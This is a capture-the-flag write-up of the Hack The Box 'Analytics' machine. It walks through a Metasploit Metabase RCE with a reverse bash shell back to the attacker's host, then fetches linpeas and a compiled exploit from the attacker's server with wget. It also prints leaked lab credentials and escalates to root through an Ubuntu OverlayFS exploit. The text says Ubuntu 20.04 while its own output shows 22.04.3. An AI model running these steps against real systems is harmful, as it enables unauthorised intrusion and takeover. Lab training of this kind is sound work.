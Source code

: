 ```yaml
---
author: pl4int3xt
layout: post
title: Analytics
date: '2023-11-07 07:40:44 +0300'
cover: img/cover_images/41.png
description: "Analytics is an easy linux machine from HTB"
categories: [HTB, Analytics]
---
```


## Machine Info

> **[Analytics](https://app.hackthebox.com/machines/Analytics)** is an easy linux machine which leverages `Metabse RCE` and `Ubuntu OverLaysFs Local privesc`

## ENUMERATION
We perform a simple scan for top 100 ports

```bash
nmap -sV -sC -top-ports 100 10.10.11.233
```

output

```bash
Nmap scan report for analytical.htb (10.10.11.233)
Host is up (0.88s latency).
Not shown: 98 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Analytical
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.83 seconds
```

Since we have port 80(HTTP) open we add the ip to our hosts file 

```bash
echo '10.10.11.233 analytical.htb' | sudo tee -a /etc/hosts
```

After opening the browser we click the login button and we are directed to another subdomain. We proceed again and add it to the hosts list

![img-description](/img/analytical/1.png)

```bash
echo '10.10.11.233 data.analytical.htb' | sudo tee -a /etc/hosts
```

We get a metabase login page. We google for any available exploits for the service.

![img-description](/img/analytical/2.png)

After some google searching i came across this [CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646)

We proceed to msfconsole since the exploit is available
```bash
msf6 > search metabase

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/linux/http/metabase_setup_token_rce  2023-07-22       excellent  Yes    Metabase Setup Token RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/http/metabase_setup_token_rce

msf6 > use 0
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/metabase_setup_token_rce) > 
```

Use show options command to see the options required and set them

```bash
msf6 exploit(linux/http/metabase_setup_token_rce) > set RHOST data.analytical.htb
RHOST => data.analytical.htb
msf6 exploit(linux/http/metabase_setup_token_rce) > set RPORT 80
RPORT => 80
msf6 exploit(linux/http/metabase_setup_token_rce) > set LHOST tun0
LHOST => 10.10.16.54
```
Lets run the exploit and boom "WE ARE IN"

```bash
msf6 exploit(linux/http/metabase_setup_token_rce) > run

[*] Started reverse TCP handler on 10.10.16.54:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version Detected: 0.46.6
[+] Found setup token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[*] Sending exploit (may take a few seconds)
[*] Command shell session 1 opened (10.10.16.54:4444 -> 10.10.11.233:52878) at 2023-11-07 08:14:43 +0300

id
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)
whoami
metabase
```

Next we need to get and run linpeas to see if we can get something misconfigured in the system. We start our python server to upload linpeas
```bash
sudo python -m http.server 80
```

```bash
cd /home/metabase
wget http://10.10.16.54/linpeas.sh
```

```bash
bash linpeas.sh
```

After running linpeas.sh we get META_USER and META_PASS in the environment variables

```bash
╔══════════╣ Environment
╚ Any private information inside environment variables?
SHELL=/bin/sh
MB_DB_PASS=
HISTSIZE=0
HOSTNAME=1786d82953d0
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/home/metabase
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
HISTFILE=/dev/null
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=7
MB_DB_USER=
```

We ssh into the machine with the credentials 
```bash
ssh metalytics@10.10.11.233
password: An4lytics_ds20223#
```

```bash
metalytics@analytics:~$ ls
1  m  tmp  u  user.txt  w
```
## PRIVILEGE ESCALATION

We check the os version and find it is Ubuntu 20.04 LTS which has a public [CVE-2021-3493](https://github.com/briskets/CVE-2021-3493?source=post_page-----bd3421cba76d--------------------------------)
```bash
metalytics@analytics:~$ cat /etc/os-release
PRETTY_NAME="Ubuntu 22.04.3 LTS"
NAME="Ubuntu"
VERSION_ID="22.04"
VERSION="22.04.3 LTS (Jammy Jellyfish)"
VERSION_CODENAME=jammy
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=jammy
```

We download the exploit and compile it on our local machine
```bash
gcc exploit.c -o exploit
```

We start our server again and get the exploit
```bash
sudo python -m http.server 80
``` 

```bash
wget http://10.10.16.54/exploit
```

We change the permissions of the file and run it. We are now r00t

```bash
metalytics@analytics:~$ chmod +x exploit
metalytics@analytics:~$ ./exploit
bash-5.1#
```

![img-description](/img/analytical/3.png)
